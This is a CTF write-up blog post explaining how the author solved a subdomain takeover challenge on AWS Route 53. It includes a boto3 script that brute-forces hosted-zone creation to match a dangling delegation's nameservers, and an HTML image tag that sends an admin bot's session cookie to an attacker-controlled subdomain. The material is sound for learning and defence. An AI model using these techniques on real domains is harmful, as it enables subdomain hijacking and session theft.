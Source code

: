 ```yaml
---
layout: post
title: Punk Security DevSecOps Birthday CTF Subdomain Takeover (Hard) Challenge Writeup
tags: [ctf, ctf writeup]
---
```


[Punk Security DevSecOps Birthday CTF](https://punksecurity.co.uk/ctf/2023/)  
[On CTFtime](https://ctftime.org/event/1903)

We did the 12-hour CTF on 4th May 2023. The CTF is unique and primarily focused on DevSecOps, including CI/CD pipelines, cloud etc. It is not in my best expertises, but we had a strong team and managed to full clear all the challenges and won the CTF.

We were one of the only teams solved this subdomain takeover challenge. This solve involves exploiting a dangling delegation DNS record on AWS Route 53 to takeover a subdomain, thus bypass some CSP restrictions.

## The Challenge and Solve

*The notes and screenshots were taken when different challenge instances were running, so several different challenge domains may be in the writeup below.*

### Finding the Dangling Delegation

In the challenge description, it suggested to do a scan of possible subdomain takeover with [dnsReaper](https://github.com/punk-security/dnsReaper) tool made and open sourced by Punk Security.

After the scan, we found a dangling delegation DNS record for zone `dev.[challenge domain]`, as shown in the screenshot below.

![dnsReaper scan result](/assets/image/punk-security-devsecops-birthday-ctf-subdomain-takeover-hard-writeup/dnsReaper.png)

I then created hosted zone on AWS Route 53 for `dev.[challenge domain]` and AWS will randomly assign 4 nameservers for the hosted zone. I used the following script to repeatedly create hosted zone and check the nameservers until I got at least one of the nameservers that the zone is delegated to.

```python
import boto3
import uuid
client = boto3.client('route53')
target_nameservers = 'ns-423.awsdns-52.com,ns-904.awsdns-49.net,ns-1899.awsdns-45.co.uk,ns-1125.awsdns-12.org'
target_nameservers = set(target_nameservers.split(','))
count = 0
while True:
    count += 1
    print(count, end='\r')
    zone = client.create_hosted_zone(
        Name='dev.d9edd91f-c40.ctf.two.dr.punksecurity.cloud',
        CallerReference=str(uuid.uuid4()),
        HostedZoneConfig={
            'PrivateZone': False
        }
    )
    id = zone['HostedZone']['Id']
    nameservers = set(zone['DelegationSet']['NameServers'])
    if len(nameservers & target_nameservers) > 0:
        break
    client.delete_hosted_zone(Id=id)
```

It took only just over 100 attempts to get a nameserver that the zone is delegated to.

### Finding Loopholes on the Web

The web app to be exploited uses CSP to restrict the loading of external scripts. It only allows the script from the same origin. However, the session cookie is set to the domain scope of `.[challenge domain]`, that means when making requests to any subdomains or even sub-subdomains etc, the session cookie will be included.

![Session Cookie](/assets/image/punk-security-devsecops-birthday-ctf-subdomain-takeover-hard-writeup/cookie.png)

The CSP on the web app also allows images from any origin, so we can load images from the subdomain we took over.

With the `dev.[challenge domain]` zone we took over with our own AWS account, we can create a subdomain `takeover.dev.[challenge domain]` and point it to a web server we control.

![Pointing the subdomain to our server on AWS Route 53](/assets/image/punk-security-devsecops-birthday-ctf-subdomain-takeover-hard-writeup/route53.png)

Thus, we I post a comment with the following content, the admin bot will make request to our server with the session cookie.

```html
<img src="http://takeover.dev.[challenge domain]">
```

![The admin bot made request to our server with session cookie](/assets/image/punk-security-devsecops-birthday-ctf-subdomain-takeover-hard-writeup/listen.png)

With the session cookie of the admin bot, we can now make request to the web app with the session cookie and get the flag.

## Notes and Findings during the CTF

In the `results.csv` outputted by dnsReaper, I noticed the link to a [GitHub Issue](https://github.com/punk-security/dnsReaper/issues/122) discussing about some protections on AWS Route 53 against domain takeover because of dangling delegation. In that discussion, there is a link to a [video demo](https://youtu.be/GGfQlPZSRk4?t=712) of the subdomain take over on AWS Route 53 at BSides Newcastle by [SimonGurney](https://github.com/SimonGurney) whom is the author of dnsReaper. Despite not the best recording audio quality, the demo was very helpful to understand this exploit.

Regarding [the protection from dangling delegation records in Route 53](https://docs.aws.amazon.com/Route53/latest/DeveloperGuide/protection-from-dangling-dns.html), when the subdomain hosted zone is removed, the delegation will need to be removed and recreated to delegate the subdomain to a hosted zone. However, if a hosted zone is never created before the delegation, meaning the domain has always been dangling, the protection will not automatically protect against subdomain takeover.
